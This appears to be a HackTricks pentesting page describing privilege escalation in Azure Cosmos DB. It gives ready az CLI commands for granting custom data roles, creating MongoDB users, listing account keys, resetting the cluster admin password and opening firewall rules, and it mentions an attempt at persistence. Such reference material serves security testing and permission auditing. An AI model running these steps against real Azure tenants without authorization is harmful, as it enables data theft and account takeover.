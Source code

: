 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

With this permissions you can priviledgeescalate giving a user the pemrissions to execute queries and connect to the database. First a definition role is created giving the necesary permissions and scopes.

```bash
az cosmosdb sql role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
      "Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
      "RoleName": "CustomReadRole",
      "Type": "CustomRole",
      "AssignableScopes": [
        "/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
      ],
      "Permissions": [
        {
          "DataActions": [
            "Microsoft.DocumentDB/databaseAccounts/readMetadata",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
          ]
        }
      ]
    }'
```

After that the assigment of the definition is given to a user. After this that user can use the DefaultAzureCredential() connection method to execute queries.

```bash
az cosmosdb sql role assignment create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --role-definition-id <Random-Unique-ID-used-in-definition> \
    --principal-id <principal_id-togive-perms> \
    --scope "/"
```

### (`Microsoft.DocumentDB/databaseAccounts/mongodbRoleDefinitions/write` && `Microsoft.DocumentDB/databaseAccounts/mongodbRoleDefinitions/read`)&& (`Microsoft.DocumentDB/databaseAccounts/mongodbUserDefinitions/write` && `Microsoft.DocumentDB/databaseAccounts/mongodbUserDefinitions/read`)

With this permission, you can create new MongoDB role definitions within an Azure Cosmos DB account. This allows defining custom roles with specific permissions for MongoDB users. RBAC functionalities must be enabled to use this.

```bash
az cosmosdb mongodb role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
        "Id": "<mydatabase>.readWriteRole",
        "RoleName": "readWriteRole",
        "Type": "CustomRole",
        "DatabaseName": "<mydatabase>",
        "Privileges": [
            {
                "Resource": {
                    "Db": "<mydatabase>",
                    "Collection": "mycollection"
                },
                "Actions": [
                    "insert",
                    "find",
                    "update"
                ]
            }
        ],
        "Roles": []
    }'
```

You can create new MongoDB user definitions within an Azure Cosmos DB account. This allows the provisioning of users with specific roles and access to MongoDB databases.

```bash
az cosmosdb mongodb user definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
        "Id": "<mydatabase>.myUser",
        "UserName": "<myUser>",
        "Password": "<mySecurePassword>",
        "DatabaseName": "<mydatabase>",
        "CustomData": "TestCustomData",
        "Mechanisms": "SCRAM-SHA-256",
        "Roles": [
            {
                "Role": "readWriteRole",
                "Db": "<mydatabase>"
            }
        ]
    }'
```

After that a new user is created within the MongoDB, we can access it:
```bash
mongosh "mongodb://<myUser>:<mySecurePassword>@<account_name>.mongo.cosmos.azure.com:10255/<mymongodatabase>?ssl=true&replicaSet=globaldb&retrywrites=false"
```

### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`

With this permission, you can retrieve the primary and secondary keys for an Azure Cosmos DB account. These keys provide full access to the database account and its resources, enabling actions such as data reads, writes, and configuration changes.

```bash
az cosmosdb keys list \
  --name <account_name> \
  --resource-group <resource_group_name>
```

### `Microsoft.DocumentDB/mongoClusters/read` , `Microsoft.DocumentDB/mongoClusters/write`

With this permission, you can create, update, or delete MongoDB clusters on Azure Cosmos DB. This includes provisioning new clusters, modifying existing cluster configurations, decommissioning clusters, or **changing the admin user's password**.

```bash
az cosmosdb mongocluster update \
  --cluster-name <cluster-name> \
  --resource-group <res-group> \
  --administrator-login "<username>" \
  --administrator-login-password "<password>" 
```

### `Microsoft.DocumentDB/mongoClusters/read` , `Microsoft.DocumentDB/mongoClusters/firewallRules/write`

With this permission, you can create or modify firewall rules for a MongoDB cluster on Azure Cosmos DB. This allows control over which IP addresses or ranges can access the cluster. Unauthorized or improper use of this permission could expose the cluster to unwanted or malicious access.

```bash
# Create Rule
az cosmosdb mongocluster firewall-rule create \
  --cluster-name <cluster-name> \
  --resource-group <res-group> \
  --rule-name <rule-name> \
  --start-ip-address <start_ip> \
  --end-ip-address <end_ip>
```

Note that by the time of the writing, MongoDB vCore doesn't support to create users internally, which would be great for persistence purposes:

```bash
mongos] test> db.createUser({
  user: "adminUser",
  pwd: "securePassword",
  roles: [ { role: "root", db: "admin" } ]
})
MongoServerError[CommandNotSupported]: CreateUser command is not supported
```


{{#include ../../../banners/hacktricks-training.md}}
